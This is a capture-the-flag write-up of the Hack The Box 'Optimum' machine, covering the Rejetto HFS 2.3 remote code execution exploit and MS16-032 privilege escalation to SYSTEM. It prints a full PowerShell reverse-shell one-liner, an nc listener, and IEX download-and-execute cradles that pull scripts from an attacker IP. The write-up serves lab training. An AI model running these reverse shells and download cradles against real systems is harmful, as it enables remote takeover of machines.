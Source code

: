 ![logo](/logo.png)

# [Optimum- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 18 Mar 2017 as the fifth machine on HTB,Optimum created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *HFS
  *HttpFileserver
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/optimum 10.10.10.8
```

###### Output 
![](Windows/Windows-Easy/Optimum/Screenshots/nmap.png)
```sh
nmap -sV -sC -oA nmap/optimum 10.10.10.8                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 14:58 EAT
Nmap scan report for 10.10.10.8
Host is up (0.31s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.03 seconds
```

looking at the results  we find out that there is 1 ports open and its a `HttpFileServer `and its running an `Apache server`. 

port[80]-  httpd 2.3

so looking at the page [http//:10.10.10.8](http://10.10.10.8) we find there is a login page 

![](/Windows/Windows-Easy/Optimum/Screenshots/landingpage.png)

when I try to login with default credential i find out that it fails but when i click at the HttpFileserver 2.3 it redirects to a [rejetto](http://www.rejetto.com/hfs/)

![](Windows/Windows-Easy/Optimum/Screenshots/rejetto.png)

so we decide to search for the exploit 

# Exploitation

```sh
searchsploit HttpFileServer 2.3
```

![](/Windows/Windows-Easy/Optimum/Screenshots/searchsploit.png)

as we can see their is an RCE exploit a python script so we examine the file

![](/Windows/Windows-Easy/Optimum/Screenshots/exploit.png)

we can see that it exploits with the `%00`  null bytes but this scripts generates for us a url to execute a reverse shell on the machine.

```sh
python3 49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.9/optimumpowershell.ps1')"
```

so we create a powershell reverse shell so that we can be able to execute and get a shell. You can get search shell from [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) for multiline and one line from [nishang](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1&ved=2ahUKEwidwsWIy-qHAxV4R_EDHS6ZD-kQjBB6BAguEAE&usg=AOvVaw1G_nxxPwS6B_yCRUM4Sd3U)

```sh
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.9',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

now we set a listener so as to get the revershell.

```sh
nc -nvlp 1337
```

then we get the  revershell 

![](/Windows/Windows-Easy/Optimum/Screenshots/reverse.png)

and we navigate with the python script generated above to the browser to get the shell.

![](/Windows/Windows-Easy/Optimum/Screenshots/browser.png)

we can then get the user flag from the user `kostas`

![](/Windows/Windows-Easy/Optimum/Screenshots/userflag.png)

now that we get to find the user flag we can now do a privillage escalation to find the root flag 

# Privillage Escalation

Just by looking at the `systeminfo` we get that their are hot fixes that where done to the machine

![](/Windows/Windows-Easy/Optimum/Screenshots/hotfix.png)

Now we search and find that their is script that checks for vulnerablitities of missing software patches for local privilege escalation vulnerabilities. [sherlork](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1) now we save the script and be able to execte if so that we can run.

from the script just copy the function find Allvulns and put at the end of the script them from the session run

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/sherlork.ps1')
```

![](/Windows/Windows-Easy/Optimum/Screenshots/sherlork.png)

and it appears that `ms16-032 and some other 2` are vulnerable

![](/Windows/Windows-Easy/Optimum/Screenshots/ms16.png)

so we search for an exploit using searchsploit and we get its vulnerabilty canbe done using different ways 

![](/Windows/Windows-Easy/Optimum/Screenshots/searchsploit2.png)

after examining the code we find that it execute from cmd.exe now we find another exploit from [empire](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) which has modification to execte from power shell. We just add the revershell at the end so that we can Invoke from the session again.

![](/Windows/Windows-Easy/Optimum/Screenshots/InvokeMs016.png)
Now after that we set a new listner and we go and execute the from the session with this to get a shell of the `Nt Authority`

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/InvokeMs.ps1')
```

![](Windows/Windows-Easy/Optimum/Screenshots/InvokeMs.png)

now after executing that a setting a listner we get root

![](/Windows/Windows-Easy/Optimum/Screenshots/root.png)
now we get the root flag 

![](/Windows/Windows-Easy/Optimum/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------